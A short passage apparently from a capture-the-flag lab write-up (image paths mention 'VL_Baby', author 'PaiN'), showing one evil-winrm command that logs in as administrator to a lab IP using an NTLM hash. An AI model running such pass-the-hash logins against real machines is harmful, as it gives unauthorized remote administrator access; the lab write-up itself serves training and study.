 ```bash
evil-winrm -i 10.10.101.17 -u administrator -H 'ee4457ae59f1e3fbd764e33d9cef123d'
```

![iewruoewr.png](/assets/Images/VL_Baby/iewruoewr.png)

---

### `Author` : `PaiN`
